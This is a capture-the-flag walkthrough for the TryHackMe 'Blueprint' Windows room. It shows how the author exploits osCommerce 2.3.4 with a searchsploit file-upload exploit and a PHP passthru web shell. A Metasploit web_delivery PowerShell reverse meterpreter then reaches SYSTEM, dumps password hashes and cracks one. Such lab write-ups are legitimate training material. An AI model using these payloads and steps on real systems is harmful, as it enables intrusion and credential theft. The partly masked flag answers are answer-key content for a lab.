 # TryHackMe Blueprint
**Hack into this Windows machine and escalate your privileges to Administrator.**

## Task-1 Blueprint

* During enumeration found - 135,139,443,445,3306,8080 ports open. Tried 'anonymous' login on smb but was unseccessful. Only active ports were - 443,8080. On '8080' found a directory named 'oscommerce' and then a sub-directory 'catalog'. Then a poorly developed web-page was opened which was redirecting to nowhere. 

* After this I ran gobuster on above site and got a page 'install'. In that was a database server which required some information to proceed. So I gave them these valued - 'Database Server':'localhost', 'username':'root', 'password':'', 'Database Name':'oscommerce'. 

* Then after clicking on continue you will see a web server page. Also you will see 'step=2' changing in the url. Web server page is already filled and now click continue. Then a page named 'Online Store settings' will come. In that enter details accordingly but set 'Administrator username':'admin' and 'Administrator Password':'admin' and then click on continue.

* After that we are successfully registered in the database. Now open your terminal and type 'searchsploit oscommerce 2.3.4'. You will see many exploits but one in particular 'arbitrary file upload'. Now open this python file and run it. You will see it's usage is given.

* Now it takes a .php file which contains our malicious code. Make a php file and in that write "<?php<br>	passthru($_ GET['cmd'])<br>?>". Now run the command (*python exploit.py -u http://IP:8080/oscommerce-2.3.4 --auth=admin:admin -f shell.php*) . After that you will see your authentication successful. In the last line a link will be given. Click that and it will redirect you to page having php warnings.

* Now open msfconsole and in that type (*use exploit/multi/script/web_delivery*). Now type (*show options*) and fill in the required fields. Set your 'SRVHOST' and 'LHOST' same as your 'tun0' ip. Now type 'show targets'. You will see a list of targets. From that select PSH. See the 'Id' of 'PSH' and then type 'set target id_of_PSH'. Now type 'set payload windows/meterpreter/reverse_tcp'. See your options one more time and then click continue. After running you will see something like 'Run the following command on the target machine:' on the metasploit console. Copy the whole command starting from 'powershell.exe' and then go to the website which we got from above result.

* Then type ?cmd='the_whole_command_copied_from_above'. So now your url will look like this - 'http://ip:8080/oscommerce-2.3.4/catalog/admin/shell.php?cmd=the_whole_command_copied_from_above'. Now wait for some time and check your metasploit shell.

* After successfully making the connection type (*sessions -i 1*) and then type 'getuid'. You will see 'Server username: NT AUTHORITY\SYSTEM'. We have successfully gained administrator. Now type 'hashdump' and you will see hashes of various users in the machine. Now answer below questions.

1. "Lab" user NTML hash decrypted<br>
Answer : google**** ('use crackstation to crack password')

* Type 'shell' in the metasploit console and you will see a windows cmd like shell. Now traverse to Administrator's desktop and get the root flag.

2. root.txt<br>
Answer : THM{aea1e3ce6fe7f89e10cea***********}
